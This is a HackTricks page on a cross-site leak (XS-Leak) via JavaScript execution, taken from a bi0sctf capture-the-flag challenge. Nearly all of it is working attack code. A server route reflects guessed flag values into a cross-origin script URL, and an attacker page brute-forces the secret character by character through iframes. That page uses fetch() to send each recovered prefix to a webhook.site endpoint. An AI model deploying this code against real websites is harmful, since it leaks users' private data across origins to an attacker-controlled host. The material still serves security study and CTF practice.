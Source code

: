 # JavaScript Execution XS Leak

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>

```javascript
// Code that will try ${guess} as flag (need rest of the server code
app.get('/guessing', function(req, res) {
    let guess = req.query.guess
    let page = `<html>
                <head>
                    <script>
                            function foo() {
                                // If not the flag this will be executed
                                window.parent.foo()
                            }
                        </script>
                    <script src="https://axol.space/search?query=${guess}&hint=foo()"></script>
                </head>
                <p>hello2</p>
                </html>`
    res.send(page)
});
```

Main page that generates iframes to the previous `/guessing` page to test each possibility

```html
<html>
<head>
    <script>
            let candidateIsGood = false;
            let candidate = ''
            let flag = 'bi0sctf{'
            let guessIndex = -1

            let flagChars = '_0123456789abcdefghijklmnopqrstuvwxyz}ABCDEFGHIJKLMNOPQRSTUVWXYZ'

            // this will get called from our iframe IF the candidate is WRONG
            function foo() {
                candidateIsGood = false
            }

            timerId = setInterval(() => {
                if (candidateIsGood) {
                    flag = candidate
                    guessIndex = -1
                    fetch('https://webhook.site/<yours-goes-here>?flag='+flag)
                }
                
                //Start with true and will be change to false if wrong
                candidateIsGood = true
                guessIndex++
                if (guessIndex >= flagChars.length) {
                    fetch('https://webhook.site/<yours-goes-here>')
                    return
                }
                let guess = flagChars[guessIndex]
                candidate = flag + guess
                let iframe = `<iframe src="/guessing?guess=${encodeURIComponent(candidate)}"></iframe>`
                console.log('iframe: ', iframe)
                hack.innerHTML = iframe
            }
            , 500);
        </script>
</head>
<p>hello</p>
<div id="hack">
</div>
</html>
```

<details>

<summary><strong>HackTricks in </strong><a href="https://twitter.com/carlospolopm"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

* Do you work in a **cybersecurity company**? Do you want to see your **company advertised in HackTricks**? or do you want to have access to the **latest version of the PEASS or download HackTricks in PDF**? Check the [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Discover [**The PEASS Family**](https://opensea.io/collection/the-peass-family), our collection of exclusive [**NFTs**](https://opensea.io/collection/the-peass-family)
* Get the [**official PEASS & HackTricks swag**](https://peass.creator-spring.com)
* **Join the** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** me on **Twitter** [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Share your hacking tricks by submitting PRs to the** [**hacktricks repo**](https://github.com/carlospolop/hacktricks) **and** [**hacktricks-cloud repo**](https://github.com/carlospolop/hacktricks-cloud).

</details>
